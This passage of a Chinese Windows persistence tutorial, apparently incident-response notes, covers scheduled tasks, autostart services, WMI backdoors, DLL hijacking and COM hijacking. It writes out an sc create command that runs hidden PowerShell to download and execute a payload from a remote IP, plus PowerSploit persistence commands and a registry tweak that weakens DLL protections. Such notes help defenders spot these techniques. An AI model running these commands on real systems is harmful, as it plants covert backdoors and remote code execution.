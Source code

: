 计划脚本每 1 分钟运行一次。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-4-4.png)

**0x04 服务自启动**

通过服务设置自启动，结合powershell实现无文件后门。

使用以下命令可实现：

```
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.28.142:8888/logo.gif'))\""

sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config Name start= auto                //设置这个服务为自动启动
net start Name                            //启动服务
```

成功创建了一个自启动服务

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-4-5.png)

**0x05 WMI后门**

在2015年的blackhat大会上Matt Graeber介绍了一种无文件后门就是用的WMI。这里可以利用一个工具powersploit，下面用它的Persistence模块来示范一个简单的例子。

```
Import-Module .\Persistence\Persistence.psm1
$ElevatedOptions = New-ElevatedPersistenceOption -PermanentWMI -Daily -At '3 PM'
$UserOptions = New-UserPersistenceOption -Registry -AtLogon
Add-Persistence -FilePath .\EvilPayload.ps1 -ElevatedPersistenceOption $ElevatedOptions -UserPersistenceOption $UserOptions -Verbose
```

**0x06 dll劫持**

如果在进程尝试加载一个DLL时没有指定DLL的绝对路径，那么Windows会尝试去指定的目录下查找这个DLL；如果攻击者能够控制其中的某一 个目录，并且放一个恶意的DLL文件到这个目录下，这个恶意的DLL便会被进程所加载，从而造成代码执行。

比较常用的如LPK.dll的劫持：

win7及win7以上系统增加了KnownDLLs保护，需要在注册表：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

下添加 “lpk.dll” 才能顺利劫持：

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-4-6.png)

**0x07 COM劫持**

利用COM劫持技术，最为关键的是dll的实现以及CLSID的选择，通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例。这种方法可以绕过Autoruns对启动项的检测。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-4-7.png)
